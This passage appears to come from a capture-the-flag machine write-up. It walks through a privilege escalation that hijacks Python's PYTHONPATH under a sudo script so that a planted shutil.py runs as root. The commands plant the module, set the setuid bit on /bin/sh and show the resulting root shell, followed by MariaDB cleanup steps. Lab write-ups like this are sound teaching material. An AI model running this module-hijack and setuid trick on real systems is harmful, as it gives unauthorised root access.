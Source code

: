 Searched google for "python environment variables exploit" and found this:

- https://www.elttam.com/blog/env/

Which suggests changing the [`PYTHONHOME`](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONHOME) or [`PYTHONPATH`](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH) environment variables. `PYTHONHOME` looks like it changes where the python libraries are found, while `PYTHONPATH` changes where python looks for module files. Since this script imports a module (`shutil`), I think we can exploit it by pointing the `PYTHONPATH` to a directory with a malicious `shutil.py` file in it.

```sh
# test run
cd /tmp
echo 'import os;os.system("id > /tmp/pwned")' > shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
```

And that shows `uid=0(root) gid=0(root) groups=0(root)` in the new file `/tmp/pwned`! The script crashed because it couldn't import `make_archive`, so we'll clean that up for the full exploit:

```sh
echo 'import os;os.system("chmod u+s /bin/sh");make_archive=lambda x,y,z:None' > /tmp/shutil.py
sudo -E PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
/bin/sh
# id
uid=1000(waldo) gid=1000(waldo) euid=0(root) egid=0(root) groups=0(root),1000(waldo),1001(admins)
```

And we have root permissions!

![](img/proof.txt.png)



---

To cleanup MariaDB after this machine:

```sh
mysql -u root -p
```

Then run the following MySQL:

```mysql
delete from mysql.user where user = 'derp';
drop database derp;
show databases; # confirm derp database gone
select host, user, password from mysql.user; # confirm derp user gone
exit;
```

Now run the following:

```sh
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 127.0.0.1
sudo systemctl start mariadb 
```